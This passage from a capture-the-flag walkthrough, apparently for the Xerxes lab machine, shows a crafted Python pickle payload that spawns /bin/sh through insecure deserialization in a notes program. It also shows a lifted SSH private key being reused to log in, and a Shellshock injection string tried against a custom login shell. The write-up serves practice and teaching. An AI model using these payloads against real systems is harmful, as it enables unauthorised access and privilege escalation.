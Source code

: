 ```sh
amanpour@xerxes:/opt$ cat /tmp/canonical.pickle
cos
system
(S'/bin/sh'
tR.
amanpour@xerxes:/opt$ ./notes.py
-------------------------------
 Welcome to Juan's to-do list! 
   type help for more info     
-------------------------------
load ../../tmp/canonical.pickle
$ whoami
curtiz
$ cd /home/curtiz
$ ls
id_rsa	notes  notes.bak
$ cat notes
(lp0
S" - I've found Marie's keyfile and was able to login via ssh,"
p1
aS' - but it seems she has added another layer of protection...'
p2
a.$ 
```

So in curtiz's folder there is Marie's ssh key. Marie must be the Delacroix user (after the [System Shock 2 character](http://shodan.wikia.com/wiki/Marie_Delacroix), and also by simple process of elimination). Let's see what this extra 'layer of protection' is.

First I copy and paste `id_rsa` onto my own machine and attempt login:
```sh
ssh delacroix@192.168.56.102 -i id_rsa
Linux xerxes 3.2.0-4-486 #1 Debian 3.2.51-1 i686
...
Password: 
```
An additional password prompt that occurs after ssh authentication. I try to bypass this a number of ways:
```sh
ssh delacroix@192.168.56.102 -i id_rsa -t bash --noprofile
ssh delacroix@192.168.56.102 -i id_rsa -t bash --noprofile --norc
ssh delacroix@192.168.56.102 -i id_rsa -t "() { :; }; /bin/bash"
```
Well, if this password prompt isn't in `.bash_profile`, isn't in `.bashrc`, and even Shellshock doesn't work on a CTF from 2013, the `delacroix` user must be using a custom shell. A quick search confirmed it isn't possible to change the shell you ssh into.

Back in our curtiz ssh session, we look for alternate shells:

```sh
$ cat /etc/shells
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
/bin/delacroix
```
